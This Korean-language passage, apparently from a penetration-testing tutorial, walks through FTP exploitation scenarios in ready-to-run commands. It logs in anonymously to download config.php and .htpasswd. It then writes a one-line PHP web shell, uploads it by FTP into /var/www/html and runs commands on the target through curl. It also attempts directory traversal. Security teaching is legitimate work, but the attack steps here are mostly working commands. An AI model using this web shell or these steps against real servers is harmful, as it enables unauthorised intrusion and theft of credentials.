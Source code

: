 ## 5. FTP 취약점 활용 사례

### 🔹 시나리오 1: 익명 FTP를 통한 정보 수집

1. 익명 FTP 접속 시도:

```bash
ftp target_ip
> anonymous
> (빈 비밀번호)
```

2. 민감한 파일 검색:

```bash
ftp> ls -la  # 숨김 파일 포함 모든 파일 표시
ftp> cd ...  # 디렉토리 탐색 시도
```

3. 발견된 정보 활용:

```bash
# 비밀번호 파일이나 구성 파일 다운로드
ftp> get config.php
ftp> get .htpasswd
```

### 🔹 시나리오 2: FTP 업로드 취약점 활용

1. 웹셸 업로드 테스트:

```bash
# 웹셸 준비
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# FTP로 업로드
ftp target_ip
> username
> password
ftp> cd /var/www/html  # 웹 디렉터리
ftp> put shell.php
```

2. 웹셸 접근:

```bash
curl "http://target_ip/shell.php?cmd=id"
```

### 🔹 시나리오 3: 구성 오류 이용

1. FTP 홈 디렉토리 탐색:

```bash
ftp target_ip
> username
> password
ftp> pwd  # 현재 디렉토리 확인
ftp> cd ..  # 상위 디렉토리 이동 시도
```
